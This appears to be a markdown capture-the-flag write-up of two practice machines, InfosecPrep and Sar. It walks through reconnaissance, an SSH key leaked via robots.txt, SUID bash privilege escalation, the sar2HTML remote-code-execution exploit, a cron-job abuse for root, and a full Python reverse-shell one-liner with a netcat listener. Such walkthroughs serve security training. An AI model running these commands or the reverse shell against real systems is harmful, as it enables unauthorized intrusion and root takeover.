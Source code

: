 # Machine: InfosecPrep

- Vulnerability: Privilege Escalation

- The severity of the issue: Meduim

- Description :

with the vulnerability, an attacker can gain unauthorized privileged access to a system

- Reproduction :

Going to our browser with the provided ip_add

With it (IP Address of the machine) the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	port => 80, 22 (good)!
  
Then with The help of Nikto, we can scan web servers for known vulnerabilities 

	nikto -host ip_add

After that we've some directories we've tested the common robots.txt which tells the search engines which directories not to enter :
 
	ip_add/robots.txt
	
	output -> /secret.txt
  
This seems like an interesting place to visit, after that we've got a text seems like a base64 encoded file with the equal sign the end first guess i thought let's decoded it
 
	wget ip_add/secret.txt ; cat secret.txt ; base64 -d > ssh_key.txt 
 
This is actually a private key and based on our previous scan we've noticed a port for ssh connection 22 
 
then we thought why not connect with the user 'oscp' and the host ip_add using the private key after changing their permissions (Secure) : 
 
	chmod 600 ssh_key.txt ; ssh -i ssh_key.txt user@ip_add -p 22 
 
Bingo we've login and we've got our first flag called local;
 

Let's scan with a tool just trying to search for possible and available exploits i'm using Linpeas :

	wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ; chmod +x linpeas.sh ; ./linepeas 

though the scan of Linepeas we've noticed a suid in the bash builtin command (indicates that the file has the setuid bit set) which means we can gain access through a ;

	/bin/bash -p
	whoami 
	
with the -p option through some googling it turns up it's a bug that allows the default shell to run with SUID privileges meaning that we have permission to run with the owner privilege

I gain access and i become a root

	cd /root/ ; cat proof.txt
	
Done!

# Resources:

https://gtfobins.github.io/gtfobins/bash/

man nmap, nikto

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 


# Machine: Sar

- Vulnerability: Remote Code Execution (RCE)

- The severity of the issue: High

- Description :

an attacker can remotely execute commands on someone else's computing device

- Reproduction :

Going to our browser with the provided ip_add, it's a default page for the Apache2 server i've read and it has nothing

As always the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	we've got only an open port for http communication 80

  
testing our robots.txt:
 
	ip_add/robots.txt

It has a directory for sar2HTML i enter, and i've read the full page and i got no idea the first thing i did is to google the name of sar2HTML, and it turns up it a command execution and i've looked for the verified one using in exploit-db :

	searchsploit sar2HTML
	
the exploit is a python script i creat a rce.py file that has the script, good!

i've run the script and i required the url, i've to give him the url with the sar2HTML path;

	python3.9 rce.py
	
	url -> http://ip_add/sar2HTML/

then i require a command ;

	cmd => ls
	
good we've got for ourselves a remote code execution, since we're dealing with rce it would be useful to use the reverse shell in order to communicate (i'll be using python3 (already checked if it exists)):

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("My_machine_ip_add",Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
	
	-c option to run full syntaxes in single line

on the other side, i'm listing through the port i've specified early 
 
	ncat -lvp 1010


with both we've got for ourselves a connection with the victim machine, based on the other machine starting our search for a flag maybe called local.txt;

	find / -type f -name local.txt 2> /dev/null
	
bingo we've got a flag good

for this part i'm back to my favorite tool Linpeas :

	./linepeas 

we've noticed a crontab runnign every 5 min */5 with sudo priviliege located in /var/www/html/finally.sh ;

	ls -la ; cat ./finally.sh
	
noticed that we don't have permission to modify on the finally script but he can run the write.sh that we have privileges so why not modify it to become ;

	touch output.txt ; chmod 777 output.txt
	cd /root/ ; ls -la >  output.txt
	
since the output always shows up at the root machine i thought to redirect it to a file after playing the waiting game for 5 min the script runs successfully and i was able to see the file in the root directory 


since we've soul the files, i've modified the file to output anything to my file ;


	cd /root/ ; ls -la >  output.txt  

# Resources:
as always man pages for the tools i've used

https://www.exploit-db.com/exploits/49344

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/655cec1f1a438fa611777deedd2a19a26aff8485/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
